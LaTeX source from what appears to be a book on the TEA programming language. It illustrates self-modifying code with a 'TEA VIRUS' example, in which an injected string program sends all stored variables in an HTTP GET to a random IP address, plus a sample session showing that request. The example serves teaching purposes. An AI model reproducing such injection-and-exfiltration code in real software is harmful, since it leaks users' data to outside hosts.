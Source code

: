 \documentclass[a4paper, 18pt]{book} %
\begin{document}
Such a program could be something like this...


 \begin{figure}[H]
 \Large
  \begin{tcolorbox}[teaterminalstyle, title=TEA Program: TEA VIRUS Example]
  \begin{lstlisting}[language=TEA]
#store original input in main program
i:{Hello World} | v:vIN 

#the evil program stored in a string...
v:vCMD:"
n!:1000 | v:id #random id
p!:10 | v:data #random data
n!:256:0:4:. | v:ip #random ip address
v:vPROTOCOL:{http://}
x*:vPROTOCOL | v:url #target web endpoint
w*: #make HTTP GET with all vaults!
v:vOUT #store output/results
"

#now inject/execute that stored-virus-program 
#in main program
E*!:vCMD #modifies main program

#store any resulting output
v:vOUT

#in case we got any output post-self-modification, 
#print it and quit
#q:^$

#otherwise present the session results..
v:I:{Original Input was:}|v:C:{Injected Program Was:} 
| v:O:{Output Was:} | v:S:_
g*:_:I:vIN:S:C:vCMD:S:O:vOUT
r!:_:{
}
   \end{lstlisting}
  \end{tcolorbox}
  \label{FIGE1}
\end{figure}


Upon running that code, anywhere TEA can work, we shall get results such as the following...


  \begin{tcbverbatim}[title=Sample Session of Injectable WEB-accessing TEA VIRUS]
Original Input was:
Hello World


Injected Program Was:

n!:1000 | v:id #random id
p!:10 | v:data #random data
n!:256:0:4:. | v:ip #random ip address
v:vPROTOCOL:{http://}
x*:vPROTOCOL | v:url #target web endpoint
w*: #make HTTP GET with all vaults!
v:vOUT #store output/results



Output Was:
[ERROR]: NetworkError: Failed to execute 'send' on 'XMLHttpRequest': Failed to load 'http://50.183.200.135/?vIN=Hello+World&vCMD=%
  \end{tcbverbatim}
\end{document}
